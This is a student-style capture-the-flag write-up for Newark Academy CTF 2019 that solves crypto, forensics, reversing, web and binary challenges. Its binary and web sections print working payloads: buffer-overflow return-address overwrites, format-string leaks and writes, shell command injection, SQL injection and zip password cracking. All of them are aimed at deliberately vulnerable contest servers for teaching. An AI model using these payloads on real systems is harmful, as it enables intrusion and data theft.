


# Newark Academy CTF 2019 Writeup
[CTFTime link](https://ctftime.org/event/869) | [Website](https://www.nactf.com/)

## Challenges

### [Cryptography](#cryptography\-1)
	- [x] Vyom's Soggy Croutons (50)
	- [x] Loony Tunes (50)
	- [x] Reversible Sneaky Algorithm #0 (125)
	- [x] Reversible Sneaky Algorithm #1 (275)
	- [x] Reversible Sneaky Algorithm #2 (350)
	- [x] Dr.J's Group Test Randomizer: Board Problem #0 (100)
	- [ ] Dr.J's Group Test Randomizer: Board Problem #1 (300)
	- [ ] Dr.J's Group Test Randomizer: Board Problem #2 (625)
	- [ ] Syper Duper AES (250)
### [Reverse Engineering](#reverse-engineering\-1)
	- [x] Keygen (600)
### [General Skills](#general-skills\-1)
	- [x] Intro to Flags (10)
	- [x] Join the Discord (25)
	- [x] What the HEX? (25)
	- [x] Off-base (25)
	- [x] Cat over the wire (50)
	- [x] Grace's HashBrowns (50)
	- [x] Get a GREP #0! (100)
	- [x] Get a GREP #1! (125)
	- [x] SHCALC (200)
	- [x] Cellular Evolution #0: Bellsprout (75)
	- [x] Cellular Evolution #1: Weepinbell (125)
	- [x] Cellular Evolution #2: VikTreebel (150)
	- [ ] Cellular Evolution #3: BBOB (600)
	- [ ] Hwang's Hidden Handiwork (100)
### [Binary Exploitation](#binary-exploitation\-1)
	- [x] BufferOverflow #0 (100)
	- [x] BufferOverflow #1 (200)
	- [x] BufferOverflow #2 (200)
	- [x] Format #0 (200)
	- [x] Format #1 (250)
	- [ ] Loopy #0 (350)
	- [ ] Loopy #1 (500)
### [Forensics](#forensics\-1)
	- [x] Least Significant Avenger (50)
	- [x] The MetaMeme (75)
	- [x] Unzip Me (150)
	- [x] Kellen's Broken File (150)
	- [x] Kellen's PDF sandwich (150)
	- [x] Filesystem Image (200)
	- [x] Phuzzy Photo (250)
	- [x] File recovery (300)
	- [ ] My Ears Hurt (75)
### [Web Exploitation](#web-exploitation\-1)
	- [x] Pink Panther (50)
	- [x] Scooby Doo (100)
	- [x] Dexter's Lab (125)
	- [x] Sesame Street (150)

* * *
# [Cryptography]
* * *

## Vyom's Soggy Croutons (50)

#### Description
> Vyom was eating a CAESAR salad with a bunch of wet croutons when he sent me this: ertkw{vk_kl_silkv}. Can you help me decipher his message?

#### Hint
> You don't have to decode it by hand -- Google is your friend!

#### Solution
Thanks to description, we know that the cipher is CAESAR. The shift key will be `ord('n') - ord('e') = 9`.
So, we can decrypt it using some online tools like [Cryptii](https://cryptii.com/) or writing python code:
```python
cipher = 'ertkw{vk_kl_silkv}'
key = ord('n') - ord('e')
plain = ''.join([chr((ord(c)-ord('a')+key)%26+ord('a')) if (ord(c)>=ord('a') and ord(c)<=ord('z')) else c for c in cipher])
print(plain)
```
#### Flag
`nactf{et_tu_brute}`

* * *

## Loony Tunes (50)

#### Description
> Ruthie is very inhumane. She keeps her precious pigs locked up in a pen. I heard that this secret message is the password to unlocking the gate to her PIGPEN. Unfortunately, Ruthie does not want people unlocking the gate so she encoded the password. Please help decrypt this code so that we can free the pigs! P.S. "\_" , "{" , and "}" are not part of the cipher and should not be changed. P.P.S the flag is all lowercase

#### File


#### Solution
The description refers to pig many times, in order to refer to **Pigpen Cipher**


Using the cihper scheme, we can easily decrypt it

#### Flag
`nactf{th_th_th_thats_all_folks}`

* * *

## Reversible Sneaky Algorithm #0 (125)

#### Description
> Yavan sent me these really large numbers... what can they mean? He sent me the cipher "c", the private key "d", and the public modulus "n". I also know he converted his message to a number with ascii. For example:

> "nactf" --> \x6e61637466 --> 474080310374

> Can you help me decrypt his cipher?

#### Hint
> Read about RSA at https://en.wikipedia.org/wiki/RSA_(cryptosystem)

> If you're new to RSA, you may want to try this tool: https://www.dcode.fr/modular-exponentiation. If you like python, try the pow() function!

#### File
- [rsa.txt](Files/rsa.txt)

#### Solution
This is a RSA chal. We have public key (n,c), and we also have private key (d). That's enough for decryption.

- [RSA_0.py](Code/RSA_0.py)

#### Flag
`nactf{w3lc0me_t0_numb3r_th30ry}`

* * *

## Reversible Sneaky Algorithm #1 (275)

#### Description
> Lori decided to implement RSA without any security measures like random padding. Must be deterministic then, huh? Silly goose!

> She encrypted a message of the form nactf{****} where the redacted flag is a string of 4 lowercase alphabetical characters. Can you decrypt it?

> As in the previous problem, the message is converted to a number by converting ascii to hex.

#### Hint
> The flag seems pretty short... can you brute-force it?

> (Note: By brute-force, we do not mean brute-forcing the flag submission - do not SUBMIT dozens of flags. Brute force on your own computer.)

#### File
- [ReversibleSneakyAlgorithm.txt](Files/ReversibleSneakyAlgorithm.txt)

#### Solution
Now we just have public key (n,e,c) and n is too big. We can't factorize n.
But the cipher space is small: `26^4 = 456976`. So we can brute force it.

- [RSA_1.py](Code/RSA_1.py)

#### Flag
`nactf{pkcs}`

* * *

## Reversible Sneaky Algorithm #2 (350)

#### Description
> Oligar was thinking about number theory at AwesomeMath when he decided to encrypt a message with RSA. As a mathematician, he made various observations about the numbers. He told Molly one such observation:

> a^r ≡ 1 (mod n)

> He isn't SHOR if he accidentally revealed anything by telling Molly this fact... can you decrypt his message?

> Source code, a and r, public key, and ciphertext are attached.

#### Hint
> I'm pretty SHOR Oligar was building a quantum computer for something...

#### File
- [shor.py](Files/shor.py)
- [oligarchy.pem](Files/oligarchy.pem)
- [are_you_shor.txt](Files/are_you_shor.txt)

#### Solution
From description and hint, we know that we need to use [SHOR algorithm](https://en.wikipedia.org/wiki/Shor%27s_algorithm) to sovle the chal.
Based on the *algorithm*, we know that if 
```
f(x+r) = f(x) with f(x) = a^x mod (n)
```
then `r` divides `phi(n)`, where `phi(n)` denotes *Euler's totient function*.
If we choose x=0 then:
```
f(r) = a^r mod (n)
f(0) = a^0 mod (n) = 1 mod (n)
```
Because of `f(r) = f(0)`, so `r` divides `phi(n)`, or `phi(n) = k.r`. We just need to brute force `k`.
Once we know `phi(n)` and `n`, we can find out `p` and `q`. And that's enough. We can decrypt the cipher.

- [RSA_2.py](Code/RSA_2.py)

#### Flag
`nactf{d0wn_wi7h_7h3_0lig4rchy}`

* * *

## Dr. J's Group Test Randomizer: Board Problem #0 (100)

#### Description
> Dr. J created a fast pseudorandom number generator (prng) to randomly assign pairs for the upcoming group test. Leaf really wants to know the pairs ahead of time... can you help him and predict the next output of Dr. J's prng? Leaf is pretty sure that Dr. J is using the middle-square method.

> nc shell.2019.nactf.com 31425

> The server is running the code in class-randomizer-0.c. Look at the function nextRand() to see how numbers are being generated!

#### Hint
> The middle-square method is completely determined by the previous random number... you can use a calculator and test that this is true!

#### File
- [class-randomizer-0.c](Files/class-randomizer-0.c)

#### Chal
In the chal, Server gives us the current random number. We need to guess the 2 next random numbers.
```bash
$ nc shell.2019.nactf.com 31425

Welcome to Dr. J's Random Number Generator v1! 
[r] Print a new random number 
[g] Guess the next two random numbers and receive the flag! 
[q] Quit 

> r
311696200206400
> g

Guess the next two random numbers for a flag! You have a 0.0000000000000000000000000000001% chance of guessing both correctly... Good luck!
Enter your first guess:
> 3523452342345
That's incorrect. Get out of here!
```

#### Solution
Review the code, I found out that the nextRand() function will create new seed based on the previous one:
```c
uint64_t nextRand() {
  // Keep the 8 middle digits from 5 to 12 (inclusive) and square.
  seed = getDigits(seed, 5, 12);
  seed *= seed;
  return seed;
}
```
So, we can calculate the 2 next seeds easily.

- [random_0.py](Code/random_0.py)

#### Flag
`nactf{1_l0v3_chunky_7urn1p5}`

* * *
# [Reverse Engineering]
* * *

## Keygen (100)

#### Description
> Can you figure out what the key to this program is?

#### Hint
> Don't know where to start? Fire up a debugger, or look for cross-references to data you know something about.

#### File
- [keygen-1](Files/keygen-1)

#### Solution
Using IDA to decompile the binary, we got [this](Code/keygen-1.c). 2 important functions:
```c
bool __cdecl sub_804928C(char *s)
{
  if ( strlen(s) != 15 )
    return 0;
  if ( s != strstr(s, "nactf{") )
    return 0;
  if ( s[14] == 125 )
    return sub_80491B6(s + 6) == 21380291284888LL;
  return 0;
}
```

So flag is **nactf{xxxxxxxx}**. We have to find out 8 characters in brackets. I will denotes it: **nactf{X}**.
```c
__int64 __cdecl sub_80491B6(_BYTE *a1)
{
  _BYTE *i; // [esp+4h] [ebp-Ch]
  __int64 v3; // [esp+8h] [ebp-8h]

  v3 = 0LL;
  for ( i = a1; i < a1 + 8; ++i )
  {
    v3 *= 62LL;
    if ( *i > 64 && *i <= 90 )
      v3 += (char)*i - 65;
    if ( *i > 96 && *i <= 122 )
      v3 += (char)*i - 71;
    if ( *i > 47 && *i <= 57 )
      v3 += (char)*i + 4;
  }
  return v3;
}
```

After doing some math stuffs, we finally got this:
```
v3 = 62^7 * x1 + 62^6 * x2 + ... + 62 * x7 + x8
with
	v3 = 21380291284888
	x[i] = X[i] - 65 if (X[i] > 64 && X[i] <= 90)
	x[i] = X[i] - 71 if X[i] > 96 && X[i] <= 122
	x[i] = X[i] + 4 if X[i] > 47 && X[i] <= 57
```

We can easily calculate **X** from v3.

- [keygen.py](Code/keygen.py)

#### Flag
`nactf{xxxxxxxx}`


***
# General Skills
***

## Intro to Flags (10)

#### Description
> Your flag is nactf{w3lc0m3_t0_th3_m4tr1x}

#### Flag
`nactf{1nsp3ct_b3tter_7han_c10us3au}`


***

## Join the Discord (25)

#### Description
> Go to the NACTF home page and find the link to the Discord server. A flag will be waiting for you once you join. So will Austin.

#### Flag
`nactf{g00d_luck_h4v3_fun}`


***

## What the HEX? (25)

#### Description
> What the HEX man! My friend Elon just posted this message and I have no idea what it means >:( Please help me decode it:
https://twitter.com/kevinmitnick/status/1028080089592815618?lang=en. 
Leave the text format: no need to add nactf{} or change punctuation/capitalization

#### Hint
> online converters are pretty useful

#### Solution
Cipher is
```
49 20 77 61 73 2e 20 53 6f 72 72 79 20 74 6f 20 68 61 76 65 20 6d 69 73 73 65 64 20 79 6f 75 2e
```
Decode:
```python
c = '49 20 77 61 73 2e 20 53 6f 72 72 79 20 74 6f 20 68 61 76 65 20 6d 69 73 73 65 64 20 79 6f 75 2e'
p = c.replace(' ','').decode('hex')
print(p)
```

#### Flag
`I was. Sorry to have missed you.`


***

## Off-base (25)

#### Description
> It seems my friend Rohan won't stop sending cryptic messages and he keeps mumbling something about base 64. Quick! We need to figure out what he is trying to say before he loses his mind...

> bmFjdGZ7YV9jaDRuZzNfMGZfYmE1ZX0=

#### Solution
It is base64 encode.
```python
print('bmFjdGZ7YV9jaDRuZzNfMGZfYmE1ZX0='.decode('base64'))
```

#### Flag
`nactf{a_ch4ng3_0f_ba5e}`


***

## Cat over the wire (50)

#### Description
> Open up a terminal and connect to the server at shell.2019.nactf.com on port 31242 and get the flag!
Use this netcat command in terminal:

> nc shell.2019.nactf.com 31242

#### Flag
`nactf{th3_c4ts_0ut_0f_th3_b4g}`


***

## Grace's HashBrowns (50)

#### Description
> Grace was trying to make some food for her family but she really messed it up. She was trying to make some hashbrowns but instead, she made this:
**f5525fc4fc5fdd42a7cf4f65dc27571c**.
I guess Grace is a really bad cook. But at least she tried to add some md5 sauce.
remember to put the flag in nactf{....}

#### Solution
Using online [tools](https://hashkiller.co.uk/Cracker) to decrypt MD5

#### Flag
`nactf{grak}`


***

## Get a GREP #0 (100)

#### Description
> Vikram was climbing a chunky tree when he decided to hide a flag on one of the leaves. There are 10,000 leaves so there's no way you can find the right one in time... Can you open up a terminal window and get a grep on the flag?

#### Hint
> You'll need to add an option to the grep command: look up recursive search!

#### File
- [bigtree.zip](Files/bigtree.zip)

#### Solution
```bash
$ grep -r nactf .
./branch8/branch3/branch5/leaf8351.txt:nactf{v1kram_and_h1s_10000_l3av3s}
```

#### Flag
`nactf{v1kram_and_h1s_10000_l3av3s}`


***

## Get a GREP #1 (125)

#### Description
> Juliet hid a flag among 100,000 dummy ones so I don't know which one is real! But maybe the format of her flag is predictable? I know sometimes people add random characters to the end of flags... I think she put 7 random vowels at the end of hers. Can you get a GREP on this flag?

#### Hint
> Look up regular expressions (regex) and the regex option in grep!

#### File
- [flag.txt](Files/flag.txt)

#### Solution
```bash
grep -e [aeiou][aeiou][aeiou][aeiou][aeiou][aeiou][aeiou]} flag.txt
```

#### Flag
`nactf{r3gul4r_3xpr3ss10ns_ar3_m0r3_th4n_r3gul4r_euaiooa}`


***

## SHCALC

#### Description
> John's written a handy calculator app - in bash! Too bad it's not that secure...

> Connect at nc shell.2019.nactf.com 31214

#### Hint
> Heard of injection?

#### Solution
This is code injection. So we will inject code like this:
```bash
$ nc shell.2019.nactf.com 31214
shcalc v1.1
> `ls` 
sh: 1: arithmetic expression: expecting EOF: "calc.sh
flag.txt"
> `cat flag.txt`
sh: 1: arithmetic expression: expecting EOF: "nactf{3v4l_1s_3v1l_dCf80yOo}"
> 
```

#### Flag
`nactf{3v4l_1s_3v1l_dCf80yOo}`


***

## Cellular Evolution #0: Bellsprout (75)

#### Description
> Vikram Loves Bio!
He loves it so much that he started growing Cellular Automata in a little jar of his. He hopes his Cellular Automata can be as strong as HeLa Cells. He has so many cells growing that he decided to hire you to help him with his project. Can you open these files and follow Vikram's instructions?
Use the flag format nactf{...}

#### Hint
> Its probably good practice to put all of these files inside of a folder

> Cells colored white represent 0's and cells colored black represent 1's.

#### File
- [Cell.jar](Files/cellular0/Cell.jar)
- [inpattern.txt](Files/cellular0/inpattern.txt)
- [Vikrams_Instructions.txt](Files/cellular0/ikrams_Instructions.txt)

#### Solution
In linux, run `Cell.jar` using command `java -jar Cell.jar`.
Click **InPat**, type `E` in Program box, click **Parse**, then click **Step** 17 times. Click **OutPat**, open `outpattern.txt`, we got:
```
 1 1 . 1 . . . . 1 1 . 1 1 . . . 1 1 . . . . 1 . 1 1 . . . 1 1 . 1 1 . 1 . 1 1 . 1 1 1 . . 1 1
 ```
Change the sequece to bit strings, and convert to ascii
```python
c = ' 1 1 . 1 . . . . 1 1 . 1 1 . . . 1 1 . . . . 1 . 1 1 . . . 1 1 . 1 1 . 1 . 1 1 . 1 1 1 . . 1 1'
d = c.replace('.','0').replace(' ','')
print(hex(int(d,2))[2:].decode('hex'))
```

#### Flag
`nactf{hlacks}`


***

## Cellular Evolution #1: Weepinbell (125)

#### Description
> Apparently, Vikram was not satisfied with your work because he hired a new assistant: Eric. Eric has been doing a great job with managing the cells but he has allergies. Eric sneezed and accidentally messed up the order of the cells. Can you help Eric piece the cells back together?
btw, flag is all lowercase

#### Hint
> This program is similar to Conway's "Game of Life"

#### File
- [Cell.jar](Files/cellular1/Cell.jar)
- [inpattern.txt](Files/cellular1/inpattern.txt)
- [How_to_use_cell.jar.txt](Files/cellular1/How_to_use_cell.jar.txt)
- [Erics_Instructions.txt](Files/cellular1/Erics_Instructions.txt)

#### Solution
Program to Parse
```
NW == 4 : 3
NE == 3 : 4
SW == 1 : 2
SE == 2 : 1
 ```
After 20 generations, we got this


#### Flag
`nactf{ie_eid_ftw}`


***

## Cellular Evolution #2: VikTreebel (150)

#### Description
> Thanks to your help, Eric and Vikram fixed their cells. Business is booming, and they're now a multinational megacorporation! They need bigger cells to meet demand: Eric used the rule "sum8" to evolve his cells to their next stage of evolution! Sum8 sets each cell to the sum of the cells around it (see examples). Eric sent us his evolved cells, but we want to know what they looked like before! Can you turn back time and get the flag?

#### Hint
> Make sure your settings are the same as in the example images, except change "cell size" to medium.

> Submit your answer with the flag format nactf{}. Use all lowercase alphabetical characters.

> You can do this one by hand. It's like minesweeper!

#### File
- [Cell.jar](Files/cellular2/Cell.jar)
- [inpattern.txt](Files/cellular2/inpattern.txt)
- [example1.png](Files/cellular2/example1.png)
- [example2.png](Files/cellular2/example2.png)

#### Solution
Just play like minesweeper! We will come to this:


#### Flag
`nactf{conwayblco}`


***
# [Binary Exploitation]
***

## BufferOverflow #0 (100)

#### Description
> The close cousin of a website for "Question marked as duplicate".
Can you cause a segfault and get the flag?

> shell.2019.nactf.com:31475

#### Hint
> What does it mean to overflow the buffer?

#### File
- [bufover-0](Files/bufover-0)
- [bufover-0.c](Files/bufover-0.c)

#### Solution
We have BOF here:
```c
gets(buf);
```
Our target is to call function **win()**. We have a call to **signal()**, it will call **win()** whenever SIGSEGV error occurs.
```c
signal(SIGSEGV, win);
```
So, we just need to send a long input to cause SIGSEGV
```bash
$ python -c "print 'A'*100" | nc shell.2019.nactf.com 31475
Type something>You typed AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
You win!
flag: nactf{0v3rfl0w_th4at_buff3r_18ghKusB}
```

#### Flag
`nactf{0v3rfl0w_th4at_buff3r_18ghKusB}`

***

## BufferOverflow #1 (200)

#### Description
> The close cousin of a website for "Question marked as duplicate" - part 2!
Can you redirect code execution and get the flag?

> Connect at shell.2019.nactf.com:31462

#### Hint
> pwntools can help you with crafting payloads

#### File
- [bufover-1](Files/bufover-1)
- [bufover-1.c](Files/bufover-1.c)

#### Solution
Now we have to overwrite the **return address** of func **vuln()** into the address of func **win()**. So after func **vuln()** finish, it will return to func **win()** and we got flag.

I use **radare2** to find the address of func **win()**. That is **0x080491b2**.

Variable `buf` in **vuln()** is at `ebp-0x18`. So, return address will be at offset `0x18 + 4` (4 bytes for Saved BP) from `buf`.

Finally, we got payload like this:

```bash
$ python -c "print 'A'*0x18 + 'B'*4 + '\xb2\x91\x04\x08'" | nc  shell.2019.nactf.com 31462
Type something>You typed AAAAAAAAAAAAAAAAAAAAAAAABBBB�!
You win!
flag: nactf{pwn_31p_0n_r3t_iNylg281}
```

#### Flag
`nactf{pwn_31p_0n_r3t_iNylg281}`


***

## BufferOverflow #2 (200)

#### Description
> The close cousin of a website for "Question marked as duplicate" - part 3!
Can you control the arguments to win() and get the flag?

> Connect at shell.2019.nactf.com:31184

#### Hint
> How are arguments passed to a function?

#### File
- [bufover-2](Files/bufover-2)
- [bufover-2.c](Files/bufover-2.c)

#### Solution
Again, we also need to overwrite the **return address** of func **vuln()** into the address of func **win()**.

But the tricky is we have to pass 2 arguments to func **win()**. We do it like so:
```bash
$ python -c "print 'A'*0x18 + 'B'*4 + '\xc2\x91\x04\x08' + 'C'*4 + '\x55\xda\xb4\x14' + '\xbe\xb4\x0d\xf0'" | nc shell.2019.nactf.com 31184
�!pe something>You typed AAAAAAAAAAAAAAAAAAAAAAAABBBCCCCUڴ��
Close, but not quite.

```
You will see that it's not work. Because of this:
```c
void win(long long arg1, int arg2)
```
arg1 is of *long long* type. So we have to change the payload a litte.
```bash
$ python -c "print 'A'*0x18 + 'B'*4 + '\xc2\x91\x04\x08' + 'C'*4 + '\x55\xda\xb4\x14' + '\x00'*4 + '\xbe\xb4\x0d\xf0'" | nc shell.2019.nactf.com 31184
Type something>You typed AAAAAAAAAAAAAAAAAAAAAAAABBBCCCCUڴ!
You win!
flag: nactf{PwN_th3_4rG5_T0o_Ky3v7Ddg}

```

#### Flag
`nactf{PwN_th3_4rG5_T0o_Ky3v7Ddg}`


***

## Format #0 (200)

#### Description
> Someone didn't tell Chaddha not to give user input as the first argument to printf() - use it to leak the flag!

> Connect at shell.2019.nactf.com:31782

#### Hint
> Note the f in printf

#### File
- [format-0](Files/format-0)
- [format-0.c](Files/format-0.c)

#### Solution
We have **Format string** here:
```c
printf(buf);
```
And flag is in argument of func **vuln()**. So we use format string to leak the flag.

We just need to know the offset of **flag** from **buf**. We can brute force it:
```bash
$ echo "%23\$s" | nc shell.2019.nactf.com 31782
Type something>You typed: ���

$ echo "%24\$s" | nc shell.2019.nactf.com 31782
Type something>You typed: nactf{Pr1ntF_L34k_m3m0ry_r34d_nM05f469}
```

#### Flag
`nactf{Pr1ntF_L34k_m3m0ry_r34d_nM05f469}`


***

## Format #1 (250)

#### Description
> printf can do more than just read memory... can you change the variable?

> Connect at nc shell.2019.nactf.com 31560

#### Hint
> Check a list of printf conversion specifiers

#### File
- [format-1](Files/format-1)
- [format-1.c](Files/format-1.c)

#### Solution
This time, we need to overwrite **num** into **42**. We do it by using "%n".

We just need to know the offset of **num** from **buf**. Alse, we can brute force it:
```bash
$ python -c "print 'A'*42 + '%23\$n'" | nc shell.2019.nactf.com 31560
Type something>You typed: 

$ python -c "print 'A'*42 + '%24\$n'" | nc s4ell.2019.nactf.com 31560
Type something>You typed: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You win!
nactf{Pr1ntF_wr1t3s_t0o_rZFCUmba}
```

#### Flag
`nactf{Pr1ntF_wr1t3s_t0o_rZFCUmba}`


***
# Forensics
***

## Least Significant Avenger (50)

#### Description
> I hate to say it but I think that Hawkeye is probably the Least Significant avenger. Can you find the flag hidden in this picture?

#### Hint
> Hiding messages in pictures is called stenography. I wonder what the least significant type of stenography is.

#### File
- [insignificant_hawkeye.png](Images/insignificant_hawkeye.png)

#### Solution
Using [tool](https://stylesuxx.github.io/steganography/) to decode.

#### Flag
`nactf{h4wk3y3_15_th3_l34st_51gn1f1c4nt_b1t}`


***

## The MetaMeme (75)

#### Description
> Phil sent me this meme and its a little but suspicious. The meme is super meta and it may be even more meta than you think.
Wouldn't it be really cool if it also had a flag hidden somewhere in it? Well you are in luck because it certainly does!


#### Hint
> Hmm how can find some Meta info about a file type?
Google is your friend :)

#### File
- [metametametameta.pdf](Files/metametametameta.pdf)

#### Solution
```bash
strings metametametameta.pdf | grep nactf
```

#### Flag
`nactf{d4mn_th15_1s_s0_m3t4}`


***

## Unzip Me (150)

#### Description
> I stole these files off of The20thDucks' computer, but it seems he was smart enough to put a password on them. Can you unzip them for me?

#### Hint
> There are many tools that can crack zip files for you

> All the passwords are real words and all lowercase

#### File
- [zip1.zip](Files/unzipme/zip1.zip)
- [zip2.zip](Files/unzipme/zip2.zip)
- [zip3.zip](Files/unzipme/zip3.zip)

#### Solution
```bash
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' zip1.zip
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' zip2.zip
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' zip3.zip
```

#### Flag
`nactf{dicnionaryrockdog}`


***

## Kellen's Broken File (150)

#### Description
> Kellen gave in to the temptation and started playing World of Tanks again. He turned the graphics up so high that something broke on his computer!
Kellen is going to lose his HEAD if he can't open this file. Please help him fix this broken file.

#### Hint
> A hex editor might be useful

#### File
- [Kellens_broken_file.pdf](Files/Kellens_broken_file.pdf)

#### Solution
just open the file.

#### Flag
`nactf{kn0w_y0ur_f1l3_h34d3rsjeklwf}`


***

## Kellen's PDF sandwich (150)

#### Description
> Kellen was playing some more World of Tanks....
He played so much WOT that he worked up an appetite.
Kellen ripped a PDF in half. He then treated these two halves as bread and placed a different PDF on the inside (yummy PDF meat!). That sounds like one good PDF sandwich. PDF on the outside and inside! YUM!

#### Hint
> You are going to have to find a way to remove the PDF from inside the other PDF file.

#### File
- [MeltedFile.pdf](Files/kellen-sandwich/MeltedFile.pdf)

#### Solution
Open pdf file to get 1st part of flag.
Then run `foremost MeltedFile.pdf`, we will extract an other pdf file, containing the 2nd part of flag.

#### Flag
`nactf{w3_l0v3_w0rld_0f_t4nk5ejwjfae}`


***

## Filesystem Image (200)

#### Description
> Put the path to flag.txt together to get the flag! for example, if it was located at ab/cd/ef/gh/ij/flag.txt, your flag would be nactf{abcdefghij}

#### Hint
> Check out loop devices on Linux

#### File
- [fsimage.iso.gz](Files/filesystem/fsimage.iso.gz)

#### Solution
Extract to file fsimage.iso. Right click *Open With Disk Image Mounter*.
Go to the mounted folder. Run
```bash
find -name 'flag.txt'
```

#### Flag
`nactf{lqwkzopyhu}`


***

## Phuzzy Photo (250)

#### Description
> Joyce's friend just sent her this photo, but it's really fuzzy. She has no idea what the message says but she thinks she can make out some black text in the middle. She gave the photo to Oligar, but even his super eyes couldn't read the text. Maybe you can write some code to find the message?
Also, you might have to look at your screen from an angle to see the blurry hidden text
P.S. Joyce's friend said that part of the message is hidden in every 6th pixel

#### File
- [The_phuzzy_photo.png](Files/The_phuzzy_photo.png)

#### Solution
```python
from PIL import Image

im = Image.open('../Files/The_phuzzy_photo.png')
im2 = Image.new('RGB', (300, 300))
im2.putdata(list(im.getdata())[::6])
im2.show()
```

#### Flag
`nactf{u22y_boy5_un1t3}`


***

## File recovery (300)

#### Description
> JUh oh! Lillian has accidentally deleted everything on her flash drive! Here's an image of the drive; find the PNG and get the flag.

#### Hint
> Although the file entry is gone from the filesystem, its contents are still on disk

> If only there were tools to find file signatures...

#### File
- [filerecovery.iso.gz](Files/filerecovery/filerecovery.iso.gz)

#### Solution
```bash
foremost filerecovery.iso
```
Go and get flag

#### Flag
`nactf{f1l3_r3c0v3ry_15_c0ol}`


***
# Web Exploitation
***

## Pink Panther (50)

#### Description
> Rahul loves the Pink Panther. He even made this website:
http://pinkpanther.web.2019.nactf.com. 
I think he hid a message somewhere on the webpage, but I don't know where... can you INSPECT and find the message?
https://www.youtube.com/watch?v=2HMSnfeNf8c

#### Hint
> This might be slightly more difficult on some browsers than on others. Chrome works well.

#### Solution
Just view source, you will see **Flag**

#### Flag
`nactf{1nsp3ct_b3tter_7han_c10us3au}`


***

## Scooby Doo (100)

#### Description
> Kira loves to watch Scooby Doo so much that she made a website about it! She also added a clicker game which looks impossible. Can you use your inspector skills from Pink Panther to reveal the flag?

> http://scoobydoo.web.2019.nactf.com

#### Solution
View-source:
```html
<div id="flagContainer">
        
        
        
        ...
        
</div>
```
To get flag, we need to change the opacity of `` tags to **1**

#### Flag
`nactf{ult1m4T3_sh4ggY}`


***

## Dexter's Lab (125)

#### Description
> Dee Dee,
Please check in on your brother's lab at http://dexterslab.web.2019.nactf.com We know his username is Dexter, but we don't know his password! Maybe you can use a SQL injection?
Mom + Dad

#### Solution
Use a basic SQL Injection `' or 1=1#` and we got **flag**.

#### Flag
`nactf{1nj3c7ion5_ar3_saf3_in_th3_l4b}`


***

## Sesame Street (125)

#### Description
> Surprisingly, The20thDuck loves cookies! He also has no idea how to use php. He accidentally messed up a cookie so it's only available on the countdown page... Also why use cookies in the first place?

> http://sesamestreet.web.2019.nactf.com

#### Hint
> The20thDuck's web development skills are not on the right PATH...

#### Solution
Go to http://sesamestreet.web.2019.nactf.com/countdown.php.
Edit cookie `session-time`, change the `Path` to `flag.php`, change the `value` to a large number such as `2568986265`. Finally, go to http://sesamestreet.web.2019.nactf.com/flag.php, we will got **flag**

#### Flag
`nactf{c000000000ki3s}`

***
***Hope you enjoy the game***